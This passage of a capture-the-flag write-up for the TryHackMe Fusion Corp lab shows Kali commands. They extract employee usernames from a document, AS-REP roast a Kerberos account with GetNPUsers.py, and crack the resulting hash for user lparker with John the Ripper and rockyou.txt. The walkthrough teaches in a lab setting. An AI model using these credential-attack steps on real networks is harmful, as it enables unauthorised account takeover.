 ```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Fusion_corp/employees]
└─$ cat content.xml | sed "s/></>\n</g" | grep '<text:p>' | cut -d '>' -f 2 | cut -d '<' -f 1 
Name
Username
Jhon Mickel
jmickel
Andrew Arnold
aarnold
Lellien Linda
llinda
Jhon Powel
jpowel
Dominique Vroslav
dvroslav
Thomas Jeffersonn
tjefferson
Nola Maurin
nmaurin
Mira Ladovic
mladovic
Larry Parker
lparker
Kay Garland
kgarland
Diana Pertersen
dpertersen

```
{: .nolineno}
{: .nolineno}

Lets look for AS-REP-ROSTABLE users that can extract the TGT ticket which helps the attacker to crack the password out of it with <mark style="background: #FF5582A6;">GetNPUsers.py</mark> Tool.

![Image](Pasted%20image%2020240320095750.png)
_GetNPUsers.py Tool_

I get the Ticket from this user <span style="color:#fd77f8">lparker</span> lets crack this hash value with John The Ripper Tool.

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Fusion_corp/employees]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSWORD> ($krb5asrep$23$lparker@FUSION.CORP)     
1g 0:00:00:10 DONE (2024-03-20 09:55)
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
{: .nolineno}
{: .nolineno}
